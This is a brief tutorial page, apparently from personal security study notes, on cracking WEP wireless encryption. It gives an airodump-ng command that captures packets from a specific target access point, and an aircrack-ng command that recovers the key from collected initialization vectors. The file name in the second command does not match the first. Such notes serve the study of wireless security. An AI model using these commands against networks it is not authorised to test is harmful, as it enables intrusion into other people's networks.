 # WEP cracking

**Passive Attack which attacker Sniff packet on target network and save it in file call `wep-test`**

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1).png>)

```bash
airodump-ng wlan0 --channel 5 --bssid D8:29:18:0A:08:91 --write wep-test
```

***

### Use Aircrack-ng tool

which crack WEP by initialization vector

```bash
aircrack-ng web-test-*
```

need more than 5000 IVs `each action is IVs`

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
